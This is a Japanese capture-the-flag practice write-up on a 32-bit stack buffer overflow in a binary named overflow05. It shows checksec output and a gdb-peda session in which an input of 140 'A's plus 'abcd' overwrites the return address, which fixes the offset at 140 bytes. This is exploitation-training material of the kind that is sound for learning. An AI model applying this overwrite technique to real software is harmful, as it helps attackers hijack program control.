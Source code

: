 ### checksec

```bash-statement
saru@lucifen:~/pwn005$ checksec --file ./overflow05
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ./overflow05

saru@lucifen:~/pwn005$
```

### 関連するアドレスの位置

## bufからreturn addressまでの距離

gdb-pedaを使う。
たぶん今までと同じなのでbufのアドレスのあと141～144番目なのを確認。
やりかたはgetsのところで「AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd」を張り付けてリターンアドレスがabcdになることで落ちるかを確認。

```
[----------------------------------registers-----------------------------------]
EAX: 0x10
EBX: 0x41414141 ('AAAA')
ECX: 0x6
EDX: 0xf7fc3890 --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd4f0 --> 0xf7fe5900 (add    dh,BYTE PTR [ebp+0x6e])
EIP: 0x64636261 ('abcd')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x64636261
[------------------------------------stack-------------------------------------]
0000| 0xffffd4f0 --> 0xf7fe5900 (add    dh,BYTE PTR [ebp+0x6e])
0004| 0xffffd4f4 --> 0xffffd510 --> 0x1
0008| 0xffffd4f8 --> 0x0
0012| 0xffffd4fc --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
0016| 0xffffd500 --> 0xf7fc2000 --> 0x1d4d6c
0020| 0xffffd504 --> 0xf7fc2000 --> 0x1d4d6c
0024| 0xffffd508 --> 0x0
0028| 0xffffd50c --> 0xf7e05e81 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x64636261 in ?? ()
gdb-peda$
```

こんな感じで「`Invalid $PC address: 0x64636261`」で落ちているので成功。
ピッタリ140バイト。
